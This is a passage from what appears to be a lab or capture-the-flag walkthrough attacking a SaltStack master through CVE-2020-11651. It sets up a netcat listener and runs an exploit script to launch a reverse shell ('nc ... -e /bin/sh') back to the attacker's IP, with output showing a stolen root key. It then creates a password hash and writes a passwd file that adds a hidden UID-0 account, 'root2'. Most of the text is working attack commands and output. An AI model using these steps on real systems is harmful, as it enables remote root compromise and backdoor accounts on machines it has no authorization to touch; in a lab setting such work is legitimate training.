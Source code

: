 Set a listener in the attacker machine:

```bash
nc -lnvp 1234
```

Run a reverse shell:

```bash
python3 exploit.py --master 192.168.111.62 --exec "nc 192.168.45.209 1234 -e /bin/sh"
```

Output:

```
[!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/utils/gitfs.py:149: DeprecationWarning: distutils Version classes are deprecated. Use packaging.version instead.
  GITPYTHON_MINVER = _LooseVersion("0.3")
/home/kali/share/twiggy/CVE-2020-11651/salt/salt/transport/zeromq.py:44: DeprecationWarning: zmq.eventloop.ioloop is deprecated in pyzmq 17. pyzmq now works with default tornado and asyncio eventloops.
  import zmq.eventloop.ioloop
[+] Checking salt-master (192.168.111.62:4506) status... ONLINE
[+] Checking if vulnerable to CVE-2020-11651... YES
[*] root key obtained: MM+k7kuD8qK7uY/FCqn+L+gPc6ScqcoJBfVShUUA3KGay3i/woG7skNXpMmON4009lLtSZ9DRlk=
[+] Attemping to execute nc 192.168.45.209 1234 -e /bin/sh on 192.168.111.62
[+] Successfully scheduled job: 20250904220223637740
```

There was no execution on the listener. 

A different strategy is generating a new password hash and uploading a passwd file with the new user:

```bash
openssl passwd Lalala123
```

Output:

```
$1$Y/jF814t$FJv0Wq8N1CyPLC4hkPTSg.
```

Append a new root user entry in `passwd`:

```bash
root:x:0:0:root:/root:/bin/bash
root2:$1$Y/jF814t$FJv0Wq8N1CyPLC4hkPTSg.:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
mezz:x:997:995::/home/mezz:/bin/false
nginx:x:996:994:Nginx web server:/var/lib/nginx:/sbin/nologin
```